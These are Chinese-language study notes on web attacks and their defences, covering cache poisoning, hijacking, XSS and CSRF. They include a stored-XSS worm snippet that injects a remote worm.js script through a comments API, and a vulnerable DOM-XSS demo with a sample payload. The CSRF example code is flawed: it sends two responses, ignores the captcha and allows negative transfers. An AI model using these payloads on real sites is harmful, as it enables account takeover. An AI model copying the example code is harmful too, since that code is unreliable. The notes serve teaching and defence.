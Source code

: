 ### 1、恶意网站拦截 ###
* 浏览器周期性的从服务端获取一份最新的恶意网站黑名单，如果，用户上网时访问的网址存在于此黑名单中，浏览器会弹出一个警告页面。
* 解决办法：工信部投诉        

### 2、缓存投毒 ###
* 免费的WiFi，欢迎页，偷偷请求好多网站，访问A站时，加载了b站的通用脚本jq/bs(内含恶意脚本)，由于大部分网站有缓存静态文件（jq,bootstrap）的时间较长。离开免费WiFi后，再次请求A站时候，就会触发jq中含有的恶意代码。
* 解决办法：尽量不用；清除缓存。    
### 3、文件投毒 ###
* 下载非官方的插件（jq）;官方下载地址被攻击；不可信的第三方cdn资源。
* 解决办法：自己擦亮眼睛  
### 4、客户端投毒 ###  
* chrome 安装了恶意的插件
* 解决办法：密码防止装库，手机验证码  
### 5、网页劫持 ###
* 本机的hosts文件被篡改,映射被改了、190.208.173.191 preok.com
* 公网的dns被解析到另一个恶意网站。
 * 脚本被篡改，比如jq引用其它网站的包。
* 解决办法：升级https。
### 6、DDOS攻击（distribute denial of service） ###   
 * 黑客控制大量肉鸡（别人ip，不同IP）发送非正常请求，
 * 向主机服务器频繁发送非正常请求，
 * 解决办法：没有有效的方法。1、验证码,2、限制请求频率、3、增加服务宽带（增加并发量，双11）、4、负载均衡分布式服务(不同区域不同服务器)、5、买些高仿IP（太贵）  
### 7、xss+csrf 儒虫 ### 
* 儒虫 有人引爆它，让它触发，比如
    ```
    // 将一个请求接口脚本 存到服务器，
    // 比如：下边评论功能，将评论内容发到数据库，每次有人=看的时候就自动提交一次。越来越多。
    const attack = '<script src="http://localhost:3001/worm.js"></script>';
    $.post('/api/comments', { content: 'haha' + attack });
    ```
### 8、HTTP劫持 ###  
* 客户端与服务器二者建立了通道，中间被劫持，也可能是运营商加个广告、
* 解决办法：https

### 9、自身安全漏洞问题 ###    
    
* 1、跨站脚本攻击（XSS）
    * 含义：cross site script,避免和css重复、所以叫 ‘XSS’,往网页里注入恶意的脚本代码，当用户访包含恶意脚本的代码时候，通过恶意脚本，黑客可以获取和控制用户信息。
    * 反射型（发给服务器返回）：引导用户点击链接，
        * 解决办法：httpOnly浏览器禁止页面的js访问带有HttpOnly属性的Cookie；谷歌浏览器做了大部分拦截；需要encodeURI和encodeURIComponent联合使用。
    * 存储型：恶意的脚本存储到服务器。
        * 解决办法：输入检测（过滤js脚本），输出检测（编码火转移）;需要encodeURI和encodeURIComponent联合使用;[html转义](http://www.w3school.com.cn/html/html_entities.asp);js转义（“e” 编码为“\145”），前端展示用函数（类库）转义下。
    * DOM-Based型XSS。不需要服务端参与，是由于DOM结构修改导致的，基于浏览器DOM解析的攻击。
    浏览器在DOM解析的时候直接使用恶意数据，常见的触发场景就是在修改innerHTML outerHTML document.write的时候。
       * 解决办法，过滤输入
       
    ```
        DOM-Based
        <body>
        <h1>输入链接地址，然后点击按钮</h1>
        <div id="content"></div>
        <input type="text" id="link">
        <button onclick="setup()">设置</button>
        <script src="https://cdn.bootcss.com/jquery/3.3.1/jquery.js"></script>
        <script>
            function setup() {
                // " onclick=alert(1) //
                let html = `<a href="${$('#link').val()}">点我</a>`;
                $('#content').html(html);
            }
        </script>
        </body>
    ```
    
    * payload XSS。窃取用户的Cookie，识别浏览器，钓鱼链接让用户访问假冒网站。
* 2、跨站请求伪造CSRF（Cross-site request forgery） 
    * 含义：跨站点请求伪造。  用户A登录银行网站，登录成功后会设置cookie，黑客诱导用户A登录到黑客的站点，然后会返回一个页面 ，用户访问这个页面时，这个页面会伪造一个转账请求到银行网站。
    * 解决办法1 验证码（影响用户体验） 类库（svgCaptcha），刷新的时候后端生成验证码发送给前端，前端保存到session（或者仅仅显示）中，请求的时候带过去（参数），相同服务端就返回，否则就拒绝。
    
    ```
    <div class="form-group">
        <label for="captcha" id="captcha"></label>
        <input id="captcha" class="form-control" placeholder="请输入验证码">
    </div>
    
    
     $.get('/api/captcha').then(data => {
        if (data.code == 0) {
            $('#captcha').html(data.captcha);
        } else {
            alert('用户未登录');
            location.href = '/login.html';
        }
    });
        var svgCaptcha = require('svg-captcha');
    app.get('/api/captcha', function (req, res) {
        let session = userSessions[req.cookies.sessionId];
        if (session) {
            var codeConfig = {
                size: 5,// 验证码长度
                ignoreChars: '0o1i', // 验证码字符中排除 0o1i
                noise: 2, // 干扰线条的数量
                height: 44
            }
            var captcha = svgCaptcha.create(codeConfig);
            session.captcha = captcha.text.toLowerCase(); //存session用于验证接口获取文字码
            res.send({ code: 0, captcha: captcha.data });
        } else {
            res.json({ code: 1, data: '没有该用户' });
        }
    });
    
    ```
    
    * 解决办法2、refer验证（不可靠）
    
     ```
      let referer = req.headers['referer'];
        if (/^https?:\/\/localhost:3000/.test(referer)) {
    
        } else {
            res.json({ code: 1, error: 'referer不正确' });
        }
     ```
     * 解决办法3 token验证（推荐）服务端生成token传给浏览器，交互的时候，判断是否相同。token有很多种生成方式，比如cookie或者sessionId,规则前后端双方约定好。 不容易被伪造，一次性的，
     
     ```
     function getClientToken() {
            let result = document.cookie.match(/token=([^;]+)/);
            return result ? result[1] : '';
        }
    function transfer(event) {
                event.preventDefault();
                let target = $('#target').val();
                let amount = $('#amount').val();
                let captcha = $('#captcha').val();
                $.post('/api/transfer', {
                    target,
                    amount,
                    captcha,
                    clientToken: getClientToken()
                }).then(data => {
                    if (data.code == 0) {
                        alert('转账成功');
                        location.reload();
                    } else {
                        alert('用户未登录');
                        location.href = '/login.html';
                    }
                });
    }
         app.post('/api/transfer', function (req, res) {
        // let referer = req.headers['referer'];
        //if (/^https?:\/\/localhost:3000/.test(referer)) {
        let { target, amount, clientToken, captcha } = req.body;
        amount = isNaN(amount) ? 0 : Number(amount);
        let { username, token } = userSessions[req.cookies.sessionId];
        if (username) {
            if (clientToken == token) {
                let user;
                for (let i = 0; i < users.length; i++) {
                    if (username == users[i].username) {
                        users[i].money -= amount;
                    } else if (target == users[i].username) {
                        users[i].money += amount;
                    }
                }
                res.json({ code: 0 });
            } else {
                res.json({ code: 1, error: '违法操作' });
            }
        } else {
            res.json({ code: 1, error: '用户没有登录' });
        }
        //} else {
        res.json({ code: 1, error: 'referer不正确' });
        //}
    })
     ```
 

